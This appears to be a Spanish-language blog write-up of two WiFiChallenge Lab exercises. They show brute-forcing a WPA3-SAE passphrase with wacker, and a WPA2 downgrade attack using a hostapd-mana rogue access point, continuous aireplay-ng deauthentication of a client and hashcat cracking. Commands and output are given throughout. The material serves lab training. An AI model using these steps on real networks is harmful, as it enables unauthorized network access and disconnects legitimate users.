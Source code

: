 ```yaml
---
layout: post
title: "WifiChallengeLab - Wi-Fi -SAE (Simultaneous Authentication of Equals)"
categories: wifi
---
```


> SAE (Simultaneous Authentication of Equals) es un método de autenticación robusto para redes WPA3, es un protocolo de autenticación y de intercambio de claves basado en contraseñas, utilizado en WPA3 (Wi-Fi Protected Access 3). Mejora la seguridad respecto a los protocolos anteriores al proporcionar resistencia a los ataques de fuerza bruta offline.

## WiFiChallenge Lab - Challenge 13. ¿Cuál es la flag en la red wifi-management?

- Primero vamos a comenzar escaneando para ver información de esta red wifi-management:

```bash
root@WiFiChallengeLab:/home/user# airmon-ng start wlan0
root@WiFiChallengeLab:/home/user# airmon-ng check kill
```

- Vemos la red.

```bash
root@WiFiChallengeLab:/home/user# airodump-ng wlan0mon --band bg --wps -c11
```

<p align="center">
<img src="https://i.imgur.com/cHHCIWp.png">
</p>

- Lo que nos piden es saber la contraseña podemos hacer un ataque de fuerza bruta <https://github.com/blunderbuss-wctf/wacker> gracias a la utilización de Dragonfly handshake.

>Dragonblood es un conjunto de vulnerabilidades descubiertas en el protocolo WPA3, específicamente en el SAE. Tiene este nombre debido a que el Handshake de WPA3 se llama DragonFly. Estas vulnerabilidades afectan tanto la fase de autenticación como el proceso de intercambio de claves, permitiendo a los atacantes ejecutar diversos tipos de ataques, tales como la recuperación de contraseñas y la ejecución de ataques de denegación de servicio.

- Para atacar este protocolo primero necesitamos saber la frecuencia de la red wifi indicando el canal donde opera el AP:

```bash
root@WiFiChallengeLab:/home/user# sudo iwlist wlan0mon frequency | grep 'Channel 11 :'
          Channel 11 : 2.462 GHz
```

- Ahora usamos la herramienta pasándole los parámetros que nos piden:

```bash
root@WiFiChallengeLab:~/tools/wacker# ./wacker.py --wordlist ~/rockyou-top100000.txt --ssid wifi-management --bssid F0:9F:C2:11:0A:24 --interface wlan2 --freq 2462
```

- Ahora tenemos la contraseña:

<p align="center">
<img src="https://i.imgur.com/3dtenRm.png">
</p>

- Ahora que tenemos la contraseña podemos conectarnos a la red:

```bash
root@WiFiChallengeLab:~# cat sae.conf 
network={
    ssid="wifi-management"
    psk="aqui va la contraseña"
    key_mgmt=SAE
    scan_ssid=1
    ieee80211w=2
}
```

- Ahora nos conectamos a la red:

```bash
root@WiFiChallengeLab:~# wpa_supplicant -i wlan3 -c sae.conf
Successfully initialized wpa_supplicant
nl80211: send_and_recv->nl_recvmsgs failed: -33
wlan3: SME: Trying to authenticate with f0:9f:c2:11:0a:24 (SSID='wifi-management' freq=2462 MHz)
wlan3: SME: Trying to authenticate with f0:9f:c2:11:0a:24 (SSID='wifi-management' freq=2462 MHz)
wlan3: PMKSA-CACHE-ADDED f0:9f:c2:11:0a:24 0
wlan3: Trying to associate with f0:9f:c2:11:0a:24 (SSID='wifi-management' freq=2462 MHz)
wlan3: Associated with f0:9f:c2:11:0a:24
wlan3: CTRL-EVENT-SUBNET-STATUS-UPDATE status=0
wlan3: WPA: Key negotiation completed with f0:9f:c2:11:0a:24 [PTK=CCMP GTK=CCMP]
wlan3: CTRL-EVENT-CONNECTED - Connection to f0:9f:c2:11:0a:24 completed [id=0 id_str=]
```

- Ahora para poder navegar nos asignamos IP:

```bash
root@WiFiChallengeLab:/home/user# dhclient -v wlan3
Internet Systems Consortium DHCP Client 4.4.1
Copyright 2004-2018 Internet Systems Consortium.
All rights reserved.
For info, please visit https://www.isc.org/software/dhcp/

Listening on LPF/wlan3/02:00:00:00:03:00
Sending on   LPF/wlan3/02:00:00:00:03:00
Sending on   Socket/fallback
DHCPDISCOVER on wlan3 to 255.255.255.255 port 67 interval 3 (xid=0x5cdf3d77)
DHCPDISCOVER on wlan3 to 255.255.255.255 port 67 interval 5 (xid=0x5cdf3d77)
DHCPOFFER of 192.168.14.46 from 192.168.14.1
DHCPREQUEST for 192.168.14.46 on wlan3 to 255.255.255.255 port 67 (xid=0x773ddf5c)
DHCPACK of 192.168.14.46 from 192.168.14.1 (xid=0x5cdf3d77)
bound to 192.168.14.46 -- renewal in 43145 seconds.
```

- Ahora vamos a la web para ver la flag:

<p align="center">
<img src="https://i.imgur.com/8MElZal.png">
</p>

## Challenge 14. ¿Cuál es la flag en la web del AP wifi-IT?

- Para este nivel nos dan 2 pistas y nos dicen que tenemos que hacer el ataque downgrade y que el 802.11w esta deshabilitado.

>Este tipo de ataque consiste en engañar al dispositivo para que se conecte utilizando el protocolo WPA2 en lugar de WPA3, siendo vulnerable a ataques de WPA2.

>802.11w está deshabilitado" significa que tu dispositivo o red Wi-Fi no está utilizando una característica de seguridad específica del estándar Wi-Fi llamada "Protected Management Frames" (PMF), Con 802.11w habilitado, esos mensajes están cifrados y autenticados, lo que evita que un atacante pueda expulsarte fácilmente de la red Wi-Fi.

- Para comprobar si esta habilitado o no podemos usar Wireshark examinando un .cap que exportemos al capturar paquetes de la red:

```bash
root@WiFiChallengeLab:~# airodump-ng wlan0mon --band bg -c11 -w captura
```

- Vemos al cliente conectado:

<p align="center">
<img src="https://i.imgur.com/OHLhVHJ.png">
</p>

- Ahora vemos con wireshark que esta en false:

<p align="center">
<img src="https://i.imgur.com/XB3Tcih.png">
</p>

- Para hacer este ataque vamos a comenzar escribiendo el archivo de configuración para el fakeAP.

```bash
root@WiFiChallengeLab:~# cat saw.conf 
interface=wlan1
driver=nl80211
hw_mode=g
channel=11
ssid=wifi-IT
mana_wpaout=hostapd-IT.hccapx
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=12345678
```

- Ahora levantamos el fakeAP:

```bash
root@WiFiChallengeLab:~# iwconfig wlan0mon channel 11
root@WiFiChallengeLab:~# hostapd-mana saw.conf 
Configuration file: saw.conf
MANA: Captured WPA/2 handshakes will be written to file 'hostapd-IT.hccapx'.
Using interface wlan1 with hwaddr 02:00:00:00:01:00 and ssid "wifi-IT"
wlan1: interface state UNINITIALIZED->ENABLED
wlan1: AP-ENABLED 
```

- Ahora vamos a expulsar al cliente para obtener el handshake.

```bash
root@WiFiChallengeLab:/home/user# aireplay-ng wlan0mon -0 0 -a F0:9F:C2:1A:CA:25 -c 10:F9:6F:AC:53:52
20:43:15  Waiting for beacon frame (BSSID: F0:9F:C2:1A:CA:25) on channel 11
20:43:15  Sending 64 directed DeAuth (code 7). STMAC: [10:F9:6F:AC:53:52] [ 0| 0 ACKs]
20:43:16  Sending 64 directed DeAuth (code 7). STMAC: [10:F9:6F:AC:53:52] [ 0| 0 ACKs]
20:43:17  Sending 64 directed DeAuth (code 7). STMAC: [10:F9:6F:AC:53:52] [ 0| 0 ACKs]
20:43:17  Sending 64 directed DeAuth (code 7). STMAC: [10:F9:6F:AC:53:52] [ 0| 0 ACKs]
20:43:18  Sending 64 directed DeAuth (code 7). STMAC: [10:F9:6F:AC:53:52] [ 0| 0 ACKs]
20:43:19  Sending 64 directed DeAuth (code 7). STMAC: [10:F9:6F:AC:53:52] [ 0| 0 ACKs]
20:43:19  Sending 64 directed DeAuth (code 7). STMAC: [10:F9:6F:AC:53:52] [ 0| 0 ACKs]
^C
```

- Obtenemos el handshake:

<p align="center">
<img src="https://i.imgur.com/QmMRRTX.png">
</p>

- Vamos hacer el formato correcto para guardar el handshake.

```bash
root@WiFiChallengeLab:~# cat hostapd-IT.hccapx | head -n 1 | awk '{print $3}' >> hostapd-itnow.22000
```

- Ahora crackeamos el hash con hashcat.

```bash
C:\Users\jmrn7\Tools\hashcat-6.2.6>.\hashcat.exe -a 0 -m 22000 hostapd-itnow.22000 rockyou-top100000.txt --force     
```

- Tenemos la contraseña:

<p align="center">
<img src="https://i.imgur.com/Vt9sevk.png">
</p>

- Ahora nos podemos conectar.

```bash
root@WiFiChallengeLab:~# cat sae2.conf 
network={
   ssid="wifi-IT"
   psk="Aquí va la contraseña"
   key_mgmt=SAE
   scan_ssid=1
   ieee80211w=1
 }
```

- Ahora nos conectamos

```bash
root@WiFiChallengeLab:~# wpa_supplicant -i wlan3 -c sae2.conf 
Successfully initialized wpa_supplicant
wlan3: SME: Trying to authenticate with f0:9f:c2:1a:ca:25 (SSID='wifi-IT' freq=2462 MHz)
wlan3: SME: Trying to authenticate with f0:9f:c2:1a:ca:25 (SSID='wifi-IT' freq=2462 MHz)
wlan3: PMKSA-CACHE-ADDED f0:9f:c2:1a:ca:25 0
wlan3: Trying to associate with f0:9f:c2:1a:ca:25 (SSID='wifi-IT' freq=2462 MHz)
wlan3: Associated with f0:9f:c2:1a:ca:25
wlan3: CTRL-EVENT-SUBNET-STATUS-UPDATE status=0
wlan3: WPA: Key negotiation completed with f0:9f:c2:1a:ca:25 [PTK=CCMP GTK=CCMP]
wlan3: CTRL-EVENT-CONNECTED - Connection to f0:9f:c2:1a:ca:25 completed [id=0 id_str=]
```

- Ahora nos asignamos IP.

```bash
root@WiFiChallengeLab:/home/user# dhclient wlan3 -v
Internet Systems Consortium DHCP Client 4.4.1
Copyright 2004-2018 Internet Systems Consortium.
All rights reserved.
For info, please visit https://www.isc.org/software/dhcp/

Listening on LPF/wlan3/02:00:00:00:03:00
Sending on   LPF/wlan3/02:00:00:00:03:00
Sending on   Socket/fallback
DHCPDISCOVER on wlan3 to 255.255.255.255 port 67 interval 3 (xid=0xf2ae2571)
DHCPOFFER of 192.168.15.46 from 192.168.15.1
DHCPREQUEST for 192.168.15.46 on wlan3 to 255.255.255.255 port 67 (xid=0x7125aef2)
DHCPACK of 192.168.15.46 from 192.168.15.1 (xid=0xf2ae2571)
bound to 192.168.15.46 -- renewal in 33409 seconds.
```

- Vemos la flag final.

```bash
root@WiFiChallengeLab:/home/user# curl -s http://192.168.15.1/login.php | grep flag
    function copyFlagToClipboard(flag) {
        navigator.clipboard.writeText(flag).then(() => {
        alert(flag);
    Flag: <button onclick="copyFlagToClipboard('flag{xxxxxx-xxxxxxxxxxxxxxx-xxxxxxxxxxxxxx}')">flag{xxxxxx-xxxxxxxxxxxxxxx-xxxxxxxxxxxxxx}</button>
```

